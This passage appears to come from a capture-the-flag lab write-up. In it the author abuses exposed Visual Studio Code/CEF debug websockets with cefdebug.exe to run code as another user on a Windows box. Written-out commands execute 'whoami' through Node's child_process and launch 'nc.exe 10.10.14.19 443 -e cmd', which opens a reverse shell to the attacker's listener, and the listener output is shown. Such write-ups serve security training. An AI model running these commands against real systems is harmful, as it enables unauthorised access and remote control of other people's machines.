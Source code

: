Note, for some reason with this Evil-WinRM shell, it throws those two
lines of errors each time I run `cefdebug.exe`. It seems to work fine
anyway. Over a `nc` shell, it doesn't throw those errors. Your mileage
may vary. I'll not show them the rest of the post.

Those sockets only last a few seconds, so I'll have to act quickly to
make use of them. As the socket urls change in the examples I show, each
time I ran `cefdebug.exe` with no args to get the current sockets, and
then the commands shown.

To show I can run something, I'll get the version:



    *Evil-WinRM* PS C:\programdata> .\cefdebug.exe --code "process.version" --url ws://127.0.0.1:14393/5a73a31b-903d-41e8-b18d-9fb422e89234
    [2020/04/01 03:24:14:1537] U: >>> process.version
    [2020/04/01 03:24:14:1557] U: <<< v10.11.0



I can also see who is running with `whoami`. I tried to pick a directory
that any user would be able to write to:



    *Evil-WinRM* PS C:\programdata> .\cefdebug --code "process.mainModule.require('child_process').exec('whoami > C:\windows\system32\spool\drivers\color\0xdf')" --url ws://127.0.0.1:64493/fd4b0ffa-a388-40da-b01a-62709102094b
    [2020/04/01 03:28:40:0773] U: >>> process.mainModule.require('child_process').exec('whoami > C:\\windows\system32\spool\drivers\color\0xdf')
    [2020/04/01 03:28:40:0930] U: <<< ChildProcess

    *Evil-WinRM* PS C:\programdata> type C:\windows\system32\spool\drivers\color\0xdf
    megacorp\cyork



### Shell

I'll upload `nc.exe`, as I'm working through the 32-bit Visual Studio
Code. Now spawn it:



    *Evil-WinRM* PS C:\programdata> .\cefdebug --code "process.mainModule.require('child_process').exec('C:\\programdata\\nc.exe 10.10.14.19 443 -e cmd')" --url ws://127.0.0.1:60404/830991c3-0f17-4025-9b2c-a0ef1c8675f2
    [2020/04/01 03:39:52:7113] U: >>> process.mainModule.require('child_process').exec('C:\\programdata\\nc.exe 10.10.14.19 443 -e cmd')
    [2020/04/01 03:39:52:7153] U: <<< ChildProcess



And get a shell:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.179.
    Ncat: Connection from 10.10.10.179:50159.
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
